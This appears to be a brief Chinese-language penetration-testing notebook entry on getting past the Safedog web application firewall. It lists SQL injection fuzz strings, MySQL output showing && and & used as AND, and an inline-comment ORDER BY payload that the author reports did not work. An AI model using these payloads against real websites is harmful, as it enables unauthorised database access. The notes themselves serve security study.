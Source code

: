 # 记录一些平时浏览渗透测试文章

## 安全狗相关的

[原文](<https://blog.csdn.net/he_and/article/details/81287008>)

fuzz的时候可以这样

```
'and 1=1-+
'sss 1=1
'and(1=1)
```

&&符号也可以达到效果

```
mysql> select * from apps where id = 1 && 1= 1;
+----+----------+-------------------+---------+
| id | app_name | url               | country |
+----+----------+-------------------+---------+
|  1 | QQ APP   | http://im.qq.com/ | CN      |
+----+----------+-------------------+---------+
1 row in set (0.00 sec)

mysql> select * from apps where id = 1 & 1= 1;
+----+----------+-------------------+---------+
| id | app_name | url               | country |
+----+----------+-------------------+---------+
|  1 | QQ APP   | http://im.qq.com/ | CN      |
+----+----------+-------------------+---------+
1 row in set (0.00 sec)
```

这哥们说这样能行

`'/*！order*//*!by*/1–+`

但是我并没有成功

